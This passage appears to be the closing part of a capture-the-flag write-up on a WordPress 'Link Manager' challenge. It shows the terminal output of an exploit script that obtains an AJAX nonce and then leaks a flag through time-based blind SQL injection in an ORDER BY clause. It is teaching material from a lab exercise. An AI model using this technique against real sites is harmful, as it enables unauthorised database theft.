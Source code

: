 <details><summary><strong>solve.py</strong></summary></details>

```shell
┌[siunam♥Mercury]-(~/ctf/Patchstack-WCUS-Capture-The-Flag/Link-Manager)-[2024.09.21|20:00:45(HKT)]
└> python3 solve.py                                  
[*] Getting a valid AJAX nonce...
[+] Valid AJAX nonce: 1021da9893
[*] Creating a new submit link...
[+] Created a new submit link with name "bgbycaGVoe"
[*] Leaking the flag option via blind SQL injection in AJAX action "get_link_data"...
[*] Current leaking character: c at position 1
[+] Correct character c at position 1 | End time: 1.4865663051605225
[*] Current leaking character: t at position 2
[+] Correct character t at position 2 | End time: 1.4844286441802979
[*] Current leaking character: f at position 3
[+] Correct character f at position 3 | End time: 1.4852914810180664
[*] Current leaking character: { at position 4
[+] Correct character { at position 4 | End time: 1.4850826263427734
[...]
[*] Current leaking character: } at position 33
[+] Correct character } at position 33 | End time: 1.4851508140563965
[*] Current leaking character: _ at position 34
[-] Looped through all the possible characters
[+] Leaked characters: ctf{ord3ring_sql_inj3ction_links}
```

- **Flag: `CTF{ord3ring_sql_inj3ction_links}`**

## Conclusion

What we've learned:

1. Time-based SQL injection in `ORDER BY` clause